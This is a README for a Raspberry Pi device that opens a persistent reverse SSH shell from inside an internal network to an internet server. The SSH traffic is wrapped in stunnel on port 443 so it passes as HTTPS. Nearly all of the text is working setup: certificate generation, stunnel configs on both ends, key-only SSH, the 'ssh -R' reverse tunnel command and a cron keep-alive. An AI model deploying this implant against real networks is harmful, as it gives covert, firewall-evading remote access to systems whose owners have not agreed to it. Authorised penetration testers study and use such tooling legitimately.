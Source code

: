 <p align="center">
<img src="https://github.com/0x25/piTurtle/blob/master/piturtle.png" alt="piTurtle">
</p>

# piTurtle
automatic open remote shell on an internal network with raspberryPI

# need
 - stunnel 
 - ssh 
 - vps or server on internet
 - raspberry
 
# subject
Create a stunnel connection (ssl 443) to the a server on internet and the open a remote shell inside the stunnel connection with SSH.

<p align="center">
<img src="https://github.com/0x25/piTurtle/blob/master/netDiagram.png" alt="net diagram">
</p>

# stunnel
install stunnel4 on both rpi and server
```# sudo apt-get update
sudo apt-get install stunnel4
```

##### Configure server side (server)  

enable service  
```
sudo nano /etc/default/stunnel4
```
> ENABLE=1


Generate certificat
```
cd /etc/stunnel
openssl genrsa -out KeyServer.key 2048
openssl req -new -key KeyServer.key -out certif.csr
openssl x509 -req -days 3650 -in certif.csr -signkey KeyServer.key -out certserver.crt
cat KeyServer.key certserver.crt > server.pem
```

configure stunnel.conf
```
mv stunnel.conf stunnel.conf.bkp
nano stunnel.conf
```
>; It is recommended to drop root privileges if stunnel is started by root  
>chroot = /var/lib/stunnel4/  
>setuid = stunnel4  
>setgid = stunnel4  
>  
>; PID file is created inside the chroot jail (if enabled)  
>pid = /stunnel.pid  
>; pid = /stunnel.pid  
>  
>; Debugging stuff (may be useful for troubleshooting)  
>foreground = yes  
>debug = debug  
>output = /var/log/stunnel4/stunnel.log  
>  
>; TLS front-end to a web server  
>[https]  
>accept  = 443  
>connect = 22  
>cert=/etc/stunnel/server.pem  
>key=/etc/stunnel/keyServer.key  

will create a HTTPS service on port 443  

view of the chroot   
>cd /var/lib/stunnel4/  
>/var/lib/stunnel4$ tree  
>.  
>├── stunnel.pid  
>└── var  
>    ├── log  
>    │   └── stunnel4  
>    │       └── stunnel.log  
>    └── run  
>  
>4 directories, 2 files  


Start stunnel on boot service  
```
chkconfig stunnel4 on  
/etc/init.d/stunnel4 start  
```

check port (normally 443 is up)
```
sudo netstat -tanlp | grep stunnel
```


##### Configure rpi side (client)  

upload server.pem on /etc/stunnel/  

```
sudo nano /etc/stunnel/stunnel.conf
```
>debug = info  
>output = /var/log/stunnel.log  
>  
>cert = /etc/stunnel/server.pem  
>pid = /var/run/stunnel.pid  
>client = yes  
>  
>[ssh]  
>accept = 127.0.0.1:2222  
>connect = <Ip or domain>:443  

Start stunnel  
```
stunnel /etc/stunnel/stunnel.conf
```

Check if stunnel is up  
```
sudo netstat -tanlp | grep stunnel  
```

now SSH is listen on 2222 and go up stunnel  


# Create reverse shell \o/

##### On the rpi
Create a user and a ssh key on RPI  
```
useradd remote  
cd /home/remote/.ssh/  
ssh-keygen -f remote -P ""  
```

2 files is created (private (remote) key stay on the RPI and remote.pub to DL on the server)

##### On the server 
```
useradd remote  
```
copy remote.pub in /home/remote/.ssh/ 

Edit the ssh conf to allow authentification with key  (/etc/ssh/sshd_config)
>PasswordAuthentication no  
>AuthenticationMethods publickey  


##### On the rpi
start ssh reverse shell
```
ssh -i /home/remote/.ssh/remote -R 2201:localhost:22 -p 2222 remote@localhost -f -N
```

and normally on the server a port is open localhost:2201 and you can ssh to it  

>netstat -tanlp | grep 2201  
>tcp        0      0 127.0.0.1:2201          0.0.0.0:*               LISTEN      >24227/sshd: remote  



##### my crontab
>*/2 * * * * /opt/remoteShell/check.sh >> /opt/remoteShell/cron.log   


